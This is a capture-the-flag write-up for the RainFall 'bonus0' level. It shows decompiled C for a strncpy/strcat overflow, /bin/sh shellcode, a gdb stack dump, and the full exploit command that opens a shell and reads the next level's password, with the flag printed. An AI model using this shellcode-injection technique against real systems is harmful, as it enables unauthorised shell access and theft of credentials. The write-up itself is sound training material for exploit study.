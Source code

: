 ## Step 1: Static & Dynamic Analysis

```c
080484b4    char* p(char* buff, char* tild)
080484b4    {
080484b4        puts(tild);
080484e1        void tmp;
080484e1        read(0, &tmp, 4096);
080484fc        *(uint8_t*)strchr(&tmp, '\n') = 0;
0804851d        return strncpy(buff, &tmp, 20);
080484b4    }

0804851e    char* pp(char* str_main)
0804851e    {
0804851e        void buff_arg1;
08048534        p(&buff_arg1, " - ");
08048547        void buff_arg2;
08048547        p(&buff_arg2, " - ");
08048559        strcpy(str_main, &buff_arg1);
08048574        int32_t i = 0xffffffff;
08048577        char* str_main_ptr = str_main;
08048577        
08048579        while (i)
08048579        {
08048579            bool cond:0_1 = 0 != *(uint8_t*)str_main_ptr;
08048579            str_main_ptr = &str_main_ptr[1];
08048579            i -= 1;
08048579            
08048579            if (!cond:0_1)
08048579                break;
08048579        }
08048579        
08048588        *(uint16_t*)(~i - 1 + str_main) = 32;
080485a3        return strcat(str_main, &buff_arg2);
0804851e    }

080485a4    int32_t main(int32_t argc, char** argv, char** envp)
080485a4    {
080485a4        void str_main;
080485b4        pp(&str_main);
080485c0        puts(&str_main);
080485cb        return 0;
080485a4    }
```

### Explanation

The vulnerability in the binary comes from the lack of `NULL` terminated character when managing input buffers. 
The function `p()` reads data from stdin into a buffer using `read()` without checking its inputs length. 
The first 20 bytes are copied into the buffer however no NULL characters are set into the buffer if the size of the input is equal or greater than 20.
Next the `pp()` function concatenates both buffers using `strcat()` but since the first buffer is not `NULL` terminated, `strcat()` will continue to read memory past `buff_arg1`, causing the buffer overflow.
To proceed, we are first going to fill the first buffer with 20 characters 'A' followed by the shellcode.

```bash
python -c 'print(("A" * 20) + "\x31\xc0\x50\x68\x2f\x2f\x73\x68\x68\x2f\x62\x69\x6e\x89\xe3\x89\xc1\x89\xc2\xb0\x0b\xcd\x80\x31\xc0\x40\xcd\x80")'
```

Then, in the second input, we are going to use an offset of 9 characters 'B' to perfectly jump on the `eip` of the `main()` followed by the address of the first byte of the shellcode to jump on it and spawn a bash.

```bash
(gdb) x/16xw $esp
0xbfffe670:	0xbffff6b8	0xbfffe680	0x00000014	0x00000000
0xbfffe680:	0x41414141	0x41414141	0x41414141	0x41414141
0xbfffe690:	0x41414141	0x6850c031	0x68732f2f	0x69622f68
0xbfffe6a0:	0x89e3896e	0xb0c289c1	0x3180cd0b	0x80cd40c0
```

```bash
python -c 'print(("B" * 9) + "\xbf\xff\xe6\x94"[::-1] + "CCCCCCC")'
```

## Step 2: Exploiting the Binary

```bash
bonus0@RainFall:~$ (python -c 'print(("A" * 20) + "\x31\xc0\x50\x68\x2f\x2f\x73\x68\x68\x2f\x62\x69\x6e\x89\xe3\x89\xc1\x89\xc2\xb0\x0b\xcd\x80\x31\xc0\x40\xcd\x80")' ; python -c 'print(("B" * 9) + "\xbf\xff\xe6\x94"[::-1] + "CCCCCCC")' ; cat) | /home/user/bonus0/bonus0

% cat /home/user/bonus1/.pass
cd1f77a585965341c37a1774a1d1686326e1fc53aaa5459c840409d4d06523c9
```